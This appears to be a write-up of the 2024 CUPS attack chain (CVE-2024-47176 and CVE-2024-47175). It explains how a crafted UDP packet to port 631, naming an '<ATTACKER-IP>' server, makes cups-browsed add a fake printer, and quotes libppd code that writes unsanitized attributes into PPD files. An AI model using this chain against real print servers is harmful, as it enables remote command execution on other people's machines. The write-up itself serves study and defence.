 -   Vulnerability in `libcupsfilters`
-   PPD files configure how CUPS handles printing tasks, including specifying filters


## Attack Process Deep Dive: {#attack-process-deep-dive}


### Attack Chain Summarized: {#attack-chain-summarized}

1.  Force the target machine to connect back to our malicious `IPP` server by sending a crafted packet to port `631` thereby starting the process of creating a fake printer.
2.  Return a malicious `IPP` attribute string to inject our controlled `PPD` directives to the temporary file.
3.  Either print a test page from our fake printer if we have access to the `CUPS` web panel to trigger the `PPD` directives (and our commands) to be executed or wait for a print job to be sent to the fake printer.


### Detailed Exploitation Process: {#detailed-exploitation-process}


#### Step 1: Getting the printer to connect back (CVE-2024-47176): {#step-1-getting-the-printer-to-connect-back--cve-2024-47176}

-   Vulnerability in `cups-browsed` component
-   Exploit method:
    -   Send a packet containing a URL in the form: `0 3 http://<ATTACKER-IP>:<PORT>/printers/Name`
    -   Target: UDP port `631` on the vulnerable system
-   Result: `cups-browsed` connects back to the malicious URL, revealing:
    -   Kernel version
    -   System architecture


#### Step 2: Adding the Fake Printer (CVE-2024-47175): {#step-2-adding-the-fake-printer--cve-2024-47175}

-   Vulnerability in `libppd`
-   Process:
    1.  The malicious URL is mistaken for a legitimate printer
    2.  CUPS sends a `Get-Printer-Attributes` request for vendor, model, etc.
    3.  Attacker can manipulate this information to add a fake printer to CUPS
    4.  New printer addition doesn't notify the user by default



-  PPD File Creation and Conversion:

    -   Returned data is stored in a temporary PPD file
    -   The file is converted using `libppd` without proper sanitization
    -   Vulnerable code snippet:
        ```c
          // Vulnerable Code
          cupsFilePrintf(fp, "*Manufacturer: \"%s\"\n", make);
          // Vulnerable
          cupsFilePrintf(fp, "*ModelName: \"%s %s\"\n", make, model);
          // Vulnerable
          cupsFilePrintf(fp, "*Product: \"(%s %s)\"\n", make, model);
          cupsFilePrintf(fp, "*NickName: \"%s %s, %sdriverless, %s\"\n",
                                             make, model, (is_fax ? "Fax, " : ""), VERSION);
          // Vulnerable
          cupsFilePrintf(fp, "*ShortNickName: \"%s %s\"\n", make, model);
        ```
